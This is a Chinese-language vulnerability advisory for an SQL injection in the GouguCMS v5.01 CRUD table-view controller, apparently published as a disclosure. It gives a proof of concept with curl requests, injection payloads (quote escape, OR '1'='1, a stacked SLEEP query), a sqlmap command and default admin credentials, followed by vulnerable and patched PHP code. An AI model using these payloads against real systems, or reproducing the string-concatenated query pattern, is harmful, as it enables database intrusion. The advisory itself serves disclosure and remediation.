




# 勾股CMS CRUD代码生成器表信息查询SQL注入漏洞

厂商: 勾股工作室
产品: 勾股CMS（GouguCMS）
版本: v5.01（全版本受影响）
漏洞类型: SQL注入（代码注入）
漏洞编号: CNVD-GOUGU-2026-002

## 漏洞概述（Descriptions）

勾股CMS是一套基于ThinkPHP8 + Layui + MySQL打造的轻量级、高性能开源内容管理系统，内置CRUD代码自动生成器功能，可帮助开发者快速生成标准的增删改查代码。

在系统后台的CRUD管理模块中，表结构查看功能（Crud控制器的table方法）接收用户传入的表名参数，并将其通过字符串拼接方式插入到两个原始SQL查询中。系统使用`Db::query()`方法执行原始SQL，未经过任何参数化处理，导致SQL注入漏洞。

访问正常的表信息查看页面（name=cms_admin），页面正常展示数据表结构信息：

<div align="center"></div>

当name参数包含SQL注入payload时，触发数据库查询错误：

<div align="center"></div>

## 漏洞代码分析（Vulnerable Code Analysis）

漏洞位于 `/app/admin/controller/Crud.php` 第83-92行：

<div align="center"></div>

**漏洞根因分析：**

1. `Db::query()` 是ThinkPHP执行原始SQL查询的方法，不经过QueryBuilder的参数绑定机制
2. 漏洞点1中，使用PHP字符串连接运算符 `.` 手动构建SQL，单引号闭合由代码硬编码
3. 漏洞点2中，使用双引号字符串直接拼接表名，完全没有引号包裹，注入更加灵活
4. 两处查询均直接使用`$param['name']`，该值从`get_params()`获取（即HTTP请求参数），完全由用户控制
5. 开发者未对表名参数进行格式验证（如图正则检查仅允许字母数字下划线）

**同样受影响的CRUD Generator文件：**

相同的`Db::query("SHOW FULL COLUMNS FROM `...`")`不安全模式也存在于以下CRUD代码生成模板文件（需通过管理员CRUD功能间接触发）：
- `/app/crud/make/make/ControllerMake.php:41`
- `/app/crud/make/make/ModelMake.php:40`
- `/app/crud/make/make/ListMake.php:40`
- `/app/crud/make/make/AddMake.php:40`
- `/app/crud/make/make/EditMake.php:40`
- `/app/crud/make/make/ReadMake.php:40`

## 概念验证（Proof of Concept）

### 验证环境
- 测试URL: `http://127.0.0.1:8080`
- 管理员账号: admin / admin123
- 数据库: MySQL (MariaDB 11.8.6)

### 步骤1：登录获取Session

```bash
curl -c cookie.txt -X POST http://127.0.0.1:8080/admin/login/login_submit \
  -d "username=admin&password=admin123"
```

### 步骤2：正常请求验证

```bash
curl -s -b cookie.txt "http://127.0.0.1:8080/admin/crud/table?name=cms_admin"
# 返回 HTTP 200，页面大小 10,992 字节，正常展示cms_admin表结构
```

<div align="center"></div>


### 步骤3：SQL注入验证

**Payload 1：单引号逃逸触发语法错误**

```bash
curl -s -b cookie.txt "http://127.0.0.1:8080/admin/crud/table?name=cms_admin'"
# 返回 HTTP 500
# SQL: SHOW TABLE STATUS LIKE 'cms_admin'' → 语法错误，多了一个单引号
```

<div align="center"></div>


**Payload 2：利用LIKE通配符**

```bash
curl -s -b cookie.txt "http://127.0.0.1:8080/admin/crud/table?name=%25"
# name=% 会匹配所有表，但可能触发LIKE注入
```

<div align="center"></div>


**Payload 3：漏洞点2的表名注入攻击向量**

由于漏洞点2的SQL为 `SHOW FULL COLUMNS FROM <用户输入>`（无双引号包裹），注入更加灵活：

```bash
# 尝试注入子查询
curl -s -b cookie.txt \
  "http://127.0.0.1:8080/admin/crud/table?name=cms_admin WHERE 1=1-- -"
```

**Payload示例：**

```
# 注入点1: 带引号的LIKE子句（需要闭合单引号）
name=cms_admin' OR '1'='1

# 注入点2: 不带引号的FROM子句（直接注入）
name=cms_admin; SELECT SLEEP(5)--
```

### 步骤4：SQLMap自动化检测

```bash
sqlmap -u "http://127.0.0.1:8080/admin/crud/table?name=cms_admin" \
    --cookie="PHPSESSID=xxx" \
    --technique=B \
    --dbms=mysql \
    --level=3
```

## 验证结果（Result）

在本地GouguCMS v5.01测试环境中的验证结果：

**HTTP响应对比：**

| 测试情境 | HTTP状态码 | 响应大小 |
|---------|-----------|---------|
| name=cms_admin（正常） | 200 | 10,992 字节 |
| name=cms_admin'（注入） | 500 | 6,625 字节 |

验证确认了以下结论：
- 单引号成功逃逸LIKE子句的字符串上下文
- 系统直接返回SQL错误（500状态码），未进行错误屏蔽

## 修复建议（Fix Recommendation）

### 修复前（存在漏洞的代码）

```php
public function table()
{
    $param = get_params();
    $prefix = config('database.connections.mysql.prefix');
    $table_info = Db::query('SHOW TABLE STATUS LIKE ' . "'" . $param['name'] . "'");
    // ...
    $table_columns = Db::query("SHOW FULL COLUMNS FROM " . $param['name']);
```

### 修复后（安全的代码）

```php
public function table()
{
    $param = get_params();
    $prefix = config('database.connections.mysql.prefix');
    
    // 第一步：严格校验表名格式（白名单）
    $tableName = $param['name'];
    if (!preg_match('/^[a-zA-Z0-9_]+$/', $tableName)) {
        return to_assign(1, '非法的表名参数');
    }
    
    // 第二步：使用参数绑定
    $table_info = Db::query('SHOW TABLE STATUS LIKE :name', ['name' => $tableName]);
    
    // 注意：SHOW FULL COLUMNS FROM不支持参数绑定表名，
    // 但经过白名单校验后，可以使用格式化字符串
    $table_columns = Db::query("SHOW FULL COLUMNS FROM `{$tableName}`");
}
```

注意：MySQL的SHOW语句的表名部分不支持参数绑定，因此白名单校验是关键的防御措施。使用反引号包裹表名可防止部分注入，但不能完全替代白名单校验。
